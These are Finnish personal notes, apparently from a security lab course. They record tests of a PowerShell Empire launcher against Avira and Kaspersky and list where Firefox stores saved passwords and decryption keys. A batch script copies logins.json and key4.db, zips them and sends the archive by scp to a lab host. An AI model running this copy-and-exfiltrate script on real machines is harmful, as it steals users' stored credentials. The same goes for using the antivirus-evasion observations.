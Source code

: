 # Tommin muistiinpanot:

### HTTPS kuuntelijalla PowerShell Empire

Avira antoi PowerShell Empiren launcher.batin pyörähtää nätisti, mutta yhteys ei auennut.  
Kaspersky pysäytti scriptin samantien.  

### Firefox salasanat
Firefox password location:  
C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\l9ukvzcl.default\logins.json  

Firefox password decryption:  
C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\l9ukvzcl.default\ķey4.db  
  
Key.db numero vaihtelee
  
Salasanojen kopiointi:
```
mkdir C:\salasanat\
powershell Copy-Item -Path C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
pause
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
pause
scp C:\salasanat\salasanat.zip restricted@127.0.0.1:/home/restricted/.
pause
```

Sääntöjen teko:
https://seanthegeek.net/257/install-yara-write-yara-rules/



https://haagahelia-my.sharepoint.com/:p:/g/personal/a1602743_myy_haaga-helia_fi/EcyHGCAV9vtFt9CqBE9-DnMBk9DlgjZt0v-QlWIfAV2qcA?e=UQFy52
